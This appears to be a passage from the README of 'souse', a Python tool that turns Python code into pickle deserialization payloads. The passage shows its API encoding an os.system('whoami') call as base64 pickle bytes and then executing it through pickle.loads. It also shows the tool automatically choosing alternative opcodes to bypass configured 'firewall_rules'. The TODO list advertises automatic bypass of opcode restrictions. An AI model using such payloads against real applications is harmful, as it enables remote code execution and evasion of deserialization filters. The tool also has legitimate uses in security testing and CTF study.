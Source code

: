 ### 2.2 API
example:

```py
In [1]: import souse

In [2]: exp = "from os import system\nsystem('whoami')"

In [3]: souse.API(exp, optimized=True, transfer="b64").generate()
Out[3]: b'Y29zCnN5c3RlbQooVndob2FtaQp0Ui4='

In [4]: import base64

In [5]: souse.API(exp, optimized=True, transfer=base64.b64encode).generate()
Out[5]: b'Y29zCnN5c3RlbQooVndob2FtaQp0Ui4='

In [6]: souse.API(exp, optimized=True, transfer=[bytes.decode, str.encode, base64.b64encode]).generate()
Out[6]: b'Y29zCnN5c3RlbQooVndob2FtaQp0Ui4='

In [7]: import pickle

In [8]: firewall_rules = {
    ...:     "V": "*",
    ...:     "I01": "*",
    ...:     "I": "100",
    ...:     "R": "*"
    ...: }

In [9]: souse.API(exp, optimized=True, transfer=pickle.loads, firewall_rules=firewall_rules).generate()
[*] choice o to bypass rule: {'R': '*'}
[*] choice S to bypass rule: {'V': '*'}
macr0phag3
Out[9]: 0
```

## 3. TODO
- [x] support for nested expressions
- [x] opcode bypass supported
	- [x] auto bypass basic limitation（`V`、`S`、`I`、...）
	- [x] auto bypass complex limitation（`R`、`o`、`i`）
- [x] value bypass supported
	- [x] number
- [x] API
- [x] `pip install` supported

## ## Others
<img src="https://clean-1252075454.cos.ap-nanjing.myqcloud.com/20200528120800990.png" width="500">

[![Stargazers over time](https://starchart.cc/Macr0phag3/souse.svg)](https://starchart.cc/Macr0phag3/souse)
